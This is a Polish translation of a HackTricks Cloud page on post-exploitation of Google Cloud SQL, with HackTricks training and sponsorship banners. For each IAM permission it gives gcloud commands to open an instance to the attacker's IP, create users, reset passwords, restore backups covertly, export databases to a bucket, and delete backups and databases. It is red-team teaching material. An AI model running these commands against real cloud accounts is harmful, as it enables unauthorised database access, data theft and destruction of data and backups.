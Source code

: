 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Aby uzyskać więcej informacji na temat Cloud SQL, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Aby połączyć się z bazami danych, **wystarczy mieć dostęp do portu bazy danych** i znać **nazwa użytkownika** oraz **hasło**, nie ma żadnych wymagań dotyczących IAM. Zatem łatwym sposobem na uzyskanie dostępu, zakładając, że baza danych ma publiczny adres IP, jest zaktualizowanie dozwolonych sieci i **zezwolenie na dostęp z własnego adresu IP**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Możliwe jest również użycie **`--no-backup`** do **zakłócenia kopii zapasowych** bazy danych.

Ponieważ to są wymagania, nie jestem do końca pewien, jakie są uprawnienia **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Jeśli wiesz, wyślij PR!

### `cloudsql.users.list`

Uzyskaj **listę wszystkich użytkowników** bazy danych:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

To uprawnienie pozwala na **utworzenie nowego użytkownika wewnątrz** bazy danych:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

To uprawnienie pozwala na **aktualizację użytkownika wewnątrz** bazy danych. Na przykład, możesz zmienić jego hasło:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Kopie zapasowe mogą zawierać **stare wrażliwe informacje**, więc warto je sprawdzić.\
**Przywróć kopię zapasową** w bazie danych:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Aby zrobić to w bardziej ukryty sposób, zaleca się utworzenie nowej instancji SQL i odzyskanie danych tam zamiast w aktualnie działających bazach danych.

### `cloudsql.backupRuns.delete`

To uprawnienie pozwala na usuwanie kopii zapasowych:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksportuj bazę danych** do Cloud Storage Bucket, aby mieć do niej dostęp stamtąd:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importuj bazę danych** (nadpisz) z Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Usuń bazę danych z instancji db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
